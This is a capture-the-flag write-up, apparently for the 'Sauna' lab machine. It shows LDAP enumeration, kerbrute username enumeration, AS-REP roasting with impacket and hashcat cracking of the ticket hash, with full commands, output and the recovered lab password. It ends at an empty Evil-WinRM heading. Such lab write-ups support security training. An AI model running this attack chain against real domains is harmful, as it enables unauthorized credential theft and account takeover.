

# 15 - LDAP


# [Manual enumeration](https://book.hacktricks.xyz/pentesting/pentesting-ldap#manual)
```py
>>> import ldap3
>>> server = ldap3.Server('10.10.10.175', get_info = ldap3.ALL, port=389, use_ssl=False)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
DSA info (from DSE):
  Supported LDAP versions: 3, 2
  Naming contexts:
    DC=EGOTISTICAL-BANK,DC=LOCAL
    CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
    CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
    DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
    DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
  Supported controls:
    1.2.840.113556.1.4.1338 - Verify name - Control - MICROSOFT
    1.2.840.113556.1.4.1339 - Domain scope - Control - MICROSOFT
    1.2.840.113556.1.4.1340 - Search options - Control - MICROSOFT
    1.2.840.113556.1.4.1341 - RODC DCPROMO - Control - MICROSOFT
    1.2.840.113556.1.4.1413 - Permissive modify - Control - MICROSOFT
    1.2.840.113556.1.4.1504 - Attribute scoped query - Control - MICROSOFT
    1.2.840.113556.1.4.1852 - User quota - Control - MICROSOFT
    1.2.840.113556.1.4.1907 - Server shutdown notify - Control - MICROSOFT
    1.2.840.113556.1.4.1948 - Range retrieval no error - Control - MICROSOFT
    1.2.840.113556.1.4.1974 - Server force update - Control - MICROSOFT
    1.2.840.113556.1.4.2026 - Input DN - Control - MICROSOFT
    1.2.840.113556.1.4.2064 - Show recycled - Control - MICROSOFT
    1.2.840.113556.1.4.2065 - Show deactivated link - Control - MICROSOFT
    1.2.840.113556.1.4.2066 - Policy hints [DEPRECATED] - Control - MICROSOFT
    1.2.840.113556.1.4.2090 - DirSync EX - Control - MICROSOFT
    1.2.840.113556.1.4.2204 - Tree deleted EX - Control - MICROSOFT
    1.2.840.113556.1.4.2205 - Updates stats - Control - MICROSOFT
    1.2.840.113556.1.4.2206 - Search hints - Control - MICROSOFT
    1.2.840.113556.1.4.2211 - Expected entry count - Control - MICROSOFT
    1.2.840.113556.1.4.2239 - Policy hints - Control - MICROSOFT
    1.2.840.113556.1.4.2255 - Set owner - Control - MICROSOFT
    1.2.840.113556.1.4.2256 - Bypass quota - Control - MICROSOFT
    1.2.840.113556.1.4.2309
    1.2.840.113556.1.4.2330
    1.2.840.113556.1.4.2354
    1.2.840.113556.1.4.319 - LDAP Simple Paged Results - Control - RFC2696
    1.2.840.113556.1.4.417 - LDAP server show deleted objects - Control - MICROSOFT
    1.2.840.113556.1.4.473 - Sort Request - Control - RFC2891
    1.2.840.113556.1.4.474 - Sort Response - Control - RFC2891
    1.2.840.113556.1.4.521 - Cross-domain move - Control - MICROSOFT
    1.2.840.113556.1.4.528 - Server search notification - Control - MICROSOFT
    1.2.840.113556.1.4.529 - Extended DN - Control - MICROSOFT
    1.2.840.113556.1.4.619 - Lazy commit - Control - MICROSOFT
    1.2.840.113556.1.4.801 - Security descriptor flags - Control - MICROSOFT
    1.2.840.113556.1.4.802 - Range option - Control - MICROSOFT
    1.2.840.113556.1.4.805 - Tree delete - Control - MICROSOFT
    1.2.840.113556.1.4.841 - Directory synchronization - Control - MICROSOFT
    1.2.840.113556.1.4.970 - Get stats - Control - MICROSOFT
    2.16.840.1.113730.3.4.10 - Virtual List View Response - Control - IETF
    2.16.840.1.113730.3.4.9 - Virtual List View Request - Control - IETF
  Supported extensions:
    1.2.840.113556.1.4.1781 - Fast concurrent bind - Extension - MICROSOFT
    1.2.840.113556.1.4.2212 - Batch request - Extension - MICROSOFT
    1.3.6.1.4.1.1466.101.119.1 - Dynamic Refresh - Extension - RFC2589
    1.3.6.1.4.1.1466.20037 - StartTLS - Extension - RFC4511-RFC4513
    1.3.6.1.4.1.4203.1.11.3 - Who am I - Extension - RFC4532
  Supported features:
    1.2.840.113556.1.4.1670 - Active directory V51 - Feature - MICROSOFT
    1.2.840.113556.1.4.1791 - Active directory LDAP Integration - Feature - MICROSOFT
    1.2.840.113556.1.4.1935 - Active directory V60 - Feature - MICROSOFT
    1.2.840.113556.1.4.2080 - Active directory V61 R2 - Feature - MICROSOFT
    1.2.840.113556.1.4.2237 - Active directory W8 - Feature - MICROSOFT
    1.2.840.113556.1.4.800 - Active directory - Feature - MICROSOFT
  Supported SASL mechanisms:
    GSSAPI, GSS-SPNEGO, EXTERNAL, DIGEST-MD5
  Schema entry:
    CN=Aggregate,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
Other:
  domainFunctionality:
    7
  forestFunctionality:
    7
  domainControllerFunctionality:
    7
  rootDomainNamingContext:
    DC=EGOTISTICAL-BANK,DC=LOCAL
  ldapServiceName:
    EGOTISTICAL-BANK.LOCAL:sauna$@EGOTISTICAL-BANK.LOCAL
  isGlobalCatalogReady:
    TRUE
  supportedLDAPPolicies:
    MaxPoolThreads
    MaxPercentDirSyncRequests
    MaxDatagramRecv
    MaxReceiveBuffer
    InitRecvTimeout
    MaxConnections
    MaxConnIdleTime
    MaxPageSize
    MaxBatchReturnMessages
    MaxQueryDuration
    MaxDirSyncDuration
    MaxTempTableSize
    MaxResultSetSize
    MinResultSets
    MaxResultSetsPerConn
    MaxNotificationPerConn
    MaxValRange
    MaxValRangeTransitive
    ThreadMemoryLimit
    SystemMemoryLimitPercent
  serverName:
    CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
  schemaNamingContext:
    CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
  isSynchronized:
    TRUE
  highestCommittedUSN:
    98376
  dsServiceName:
    CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
  dnsHostName:
    SAUNA.EGOTISTICAL-BANK.LOCAL
  defaultNamingContext:
    DC=EGOTISTICAL-BANK,DC=LOCAL
  currentTime:
    20210729160959.0Z
  configurationNamingContext:
    CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL

>>>

```

# Naming Context
```
DSA info (from DSE):
  Supported LDAP versions: 3, 2
  Naming contexts: 
    DC=EGOTISTICAL-BANK,DC=LOCAL
```


# [Kerbrute PreAuth Attack](https://github.com/ropnop/kerbrute)


```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/sauna/kerbrute]
└──╼ $ ./kerbrute userenum -d EGOTISTICAL-BANK.LOCAL ../names.txt  --dc 10.10.10.175

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/29/21 - Ronnie Flathers @ropnop

2021/07/29 20:22:12 >  Using KDC(s):
2021/07/29 20:22:12 >   10.10.10.175:88

2021/07/29 20:22:12 >  [+] VALID USERNAME:       FSmith@EGOTISTICAL-BANK.LOCAL
2021/07/29 20:22:12 >  Done! Tested 24 usernames (1 valid) in 0.209 seconds
```

I highly recommend watching this [LDAP & Kerberos presentation](https://www.youtube.com/watch?v=2Xfd962QfPs) on Youtube.

What kerbrute does is simple. It's sending TGT requests with no pre authentication and waiting for PREAUTH REQUIRED ERROR response for valid users. In pre-auth, client has to send a timestamp encrypted with user's hash, when the server receives the cipher, it decrypts and looks at it. If it is close to KDC's time the client gets a TGT.


# Packet analysis on Wireshark 


In line 23, however, we received AS-REP instead of `KRB Error: KRB5KDC_ERR_PRE_AUTH_REQUIRED`. For FSmith, pre auth is disabled. That means we got a `Ticket Granting Ticket`.


This is what PreAuth error looks like. 


# GetNPUsers

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/sauna]
└──╼ $ impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/FSmith -dc-ip 10.10.10.175
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Cannot authenticate FSmith, getting its TGT
$krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:48c4a49cd51507e924677bffb5f41c1b$531059e1452b0f2da91145dd0f8e05f5814da69dcf7346cd65d19deaec762854c48b44b3ad20a819a8a32ec328e4030dda57456d75af504f42d4614e3051a0d52397c5088b04d5fc7d07551660295ee192d5d24d3f0e6afc785d0c91221148b13caa49d9726a68c373c7694486546345503218fdde1fdb97201117889eddf9a805696294ad21e59677c8fd2a2f3fca330521e51f4ca5ec38ad16b334cc741ccc56c193475876e050e7b0fd74241e7882dddc61fe3994866f22e9909b1f7dbe2ff9175a7f6f9466701b2567f09ea5cf32fe40c414bbc8c4f7eccf3aca98a8aaaf3c86bb534261593069b23cd2c2e6c29cdb56f3563d4dcdcdb9fd80d3de62522e
```

This is a cipher encrypted with FSmith's password. Let's crack it with hashcat.

# Cracked
```
C:\>hashcat.exe -a 0 -m 18200  hashes\sauna.hash  rockyou.txt --force

$krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:3f24d7f20a4e04594a0d36966cd9dbbd$3c04d1a2b3abd800b32cd3f4f29c18147e97cc15f95b3ca01563803a3ef759bdd1822265c41036849fd9c8cb126d3c16c89f5340a33dc03b2369a90ffe84d64fd6a81dfa995ac07e7c5bca0a1a53be99fd2a9c15693a54fa86e6c3689e51359d7cbe67267215e6d5abab58a3bbf631350805ee71205b1a2e410f3883c3120953e4880aead9f0ed1d193022e98e00a6f42fce5966efec345d49f111a8580a89d9a0884580774e8b38c6a59a3a559e3916d00aac17854772397a37fa6028e28169c4e36a2b3d07908302b75ec49f2cfc9a3d80506f6ffef2fda937eaaf2a1ccd82dd87c6d7d48f5c2cf0f2ef59283926a310cc6aceab62fc0db34f4732349ebc56:Thestrokes23

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:3f24d7f...9ebc56
Time.Started.....: Fri Jul 30 15:50:17 2021, (3 secs)
Time.Estimated...: Fri Jul 30 15:50:20 2021, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3700.6 kH/s (8.67ms) @ Accel:128 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10616832/14344384 (74.01%)
Rejected.........: 0/10616832 (0.00%)
Restore.Point....: 10485760/14344384 (73.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: XiaoLing.1215 -> Sabo2008
Hardware.Mon.#1..: Util:  6% Core:1278MHz Mem:1750MHz Bus:16

Started: Fri Jul 30 15:50:06 2021
Stopped: Fri Jul 30 15:50:21 2021
```

* FSmith:Thestrokes23


# Evil-Winrm

